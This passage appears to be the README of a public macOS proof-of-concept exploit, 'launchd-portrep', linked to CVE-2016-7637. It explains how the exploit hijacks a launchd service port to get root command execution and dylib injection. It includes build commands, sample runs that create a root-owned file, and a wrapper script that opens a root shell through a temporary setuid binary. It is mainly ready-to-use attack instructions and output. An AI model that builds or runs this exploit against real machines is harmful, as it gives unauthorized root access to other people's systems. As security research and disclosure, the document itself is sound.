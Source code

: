 This exploit demonstrates two potential uses: system command execution as root and dylib injection.
To execute a system command, we simply invoke the standard `system()` function from within
sysdiagnose, passing it the command string supplied by the user. To inject a dylib into a process,
we call `task_for_pid()` from within sysdiagnose to get the task port of the target, then use the
task port to call `dlopen()` on the supplied library.


Usage
---------------------------------------------------------------------------------------------------

To build the standalone exploit `launchd-portrep`, run `make`. See the top of the Makefile for
various build options. You will need to download and build the [threadexec] injection library
first.

[threadexec]: https://github.com/bazad/threadexec

	$ git clone https://github.com/bazad/launchd-portrep
	$ cd launchd-portrep
	$ git clone https://github.com/bazad/threadexec
	$ cd threadexec
	$ make ARCH=x86_64 SDK=macosx
	$ cd ..
	$ make

Note that the exploit as written will fail if the sysdiagnose process is already running. Thus, for
the purposes of this proof of concept, be sure to kill sysdiagnose before running the exploit. (It
is possible to rework the exploit so that it still works if sysdiagnose is already running, but I
have decided not to incorporate this functionality in order to dissuade the use of this tool for
malicious purposes.)

Run the exploit by specifying the command to run as if it were being given to the `system()`
function:

	$ ./launchd-portrep 'touch /tmp/exploit-success'
	[+] Freed launchd service port for com.apple.CoreServices.coreservicesd
	[+] Replaced com.apple.CoreServices.coreservicesd with replacer port 0xd77 (index 196) after 28 tries
	[+] Sysdiagnose has PID 499
	[+] Found sysdiagnose task port 0x1767b
	[+] Command exited with status: 0
	$ ls -la /tmp/exploit-success
	-rw-r--r--  1 root  wheel  0 Jul 24 23:50 /tmp/exploit-success

Alternatively, if you specify a PID and an absolute path to a dynamic library file,
`launchd-portrep` will inject the dylib into the specified process.

There are also two example scripts that wrap `launchd-portrep`: `launchd-portrep-rootsh.sh` and
`launchd-portrep-rootless.sh`.

`launchd-portrep-rootsh.sh` will present a traditional root shell by installing a setuid-root shell
launcher under `/var/suid-sh`. (The setuid shell is automatically removed after 1 second.)

	$ bash ./launchd-portrep-rootsh.sh
	[+] Freed launchd service port for com.apple.CoreServices.coreservicesd
	[+] Replaced com.apple.CoreServices.coreservicesd with replacer port 0x153b (index 192) after 60 tries
	[+] Sysdiagnose has PID 1231
	[+] Found sysdiagnose task port 0x1df7b
	[+] Command exited with status: 0
	Launching /private/var/suid-sh
	bash-3.2#


[CVE-2016-7637]: https://bugs.chromium.org/p/project-zero/issues/detail?id=959